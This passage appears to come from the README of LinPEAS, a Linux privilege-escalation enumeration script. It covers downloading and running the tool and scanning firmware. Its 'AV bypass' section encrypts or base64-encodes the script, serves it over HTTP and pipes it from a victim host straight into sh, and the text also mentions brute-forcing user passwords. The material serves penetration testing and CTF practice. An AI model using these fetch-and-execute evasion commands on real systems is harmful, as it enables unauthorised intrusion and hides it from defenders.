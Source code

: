 ```bash
# Use a linpeas binary
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas_linux_amd64
chmod +x linpeas_linux_amd64
./linpeas_linux_amd64
```

## Firmware Analysis
If you have a **firmware** and you want to **analyze it with linpeas** to **search for passwords or bad configured permissions** you have 2 main options.

- If you **can emulate** the firmware, just run linpeas inside of it:
```bash
cp /path/to/linpeas.sh /mnt/linpeas.sh
chroot /mnt #Supposing you have mounted the firmware FS in /mnt
bash /linpeas.sh -o software_information,interesting_files,api_keys_regex
```

- If you **cannot emulate** the firmware, use the `-f </path/to/folder` param:
```bash
# Point to the folder containing the files you want to analyze
bash /path/to/linpeas.sh -f /path/to/folder
```

## AV bypass
```bash
#open-ssl encryption
openssl enc -aes-256-cbc -pbkdf2 -salt -pass pass:AVBypassWithAES -in linpeas.sh -out lp.enc
sudo python -m SimpleHTTPServer 80 #Start HTTP server
curl 10.10.10.10/lp.enc | openssl enc -aes-256-cbc -pbkdf2 -d -pass pass:AVBypassWithAES | sh #Download from the victim

#Base64 encoded
base64 -w0 linpeas.sh > lp.enc
sudo python -m SimpleHTTPServer 80 #Start HTTP server
curl 10.10.10.10/lp.enc | base64 -d | sh #Download from the victim
```

## Basic Information

The goal of this script is to search for possible **Privilege Escalation Paths** (tested in Debian, CentOS, FreeBSD, OpenBSD and MacOS).

This script doesn't have any dependency.

It uses **/bin/sh** syntax, so can run in anything supporting `sh` (and the binaries and parameters used).

By default, **linpeas won't write anything to disk and won't try to login as any other user using `su`**.

By default linpeas takes around **4 mins** to complete, but It could take from **5 to 10 minutes** to execute all the checks using **-a** parameter *(Recommended option for CTFs)*:
- From less than 1 min to 2 mins to make almost all the checks
- Almost 1 min to search for possible passwords inside all the accesible files of the system
- 20s/user bruteforce with top2000 passwords *(need `-a`)* - Notice that this check is **super noisy**
- 1 min to monitor the processes in order to find very frequent cron jobs *(need `-a`)* - Notice that this check will need to **write** some info inside a file that will be deleted
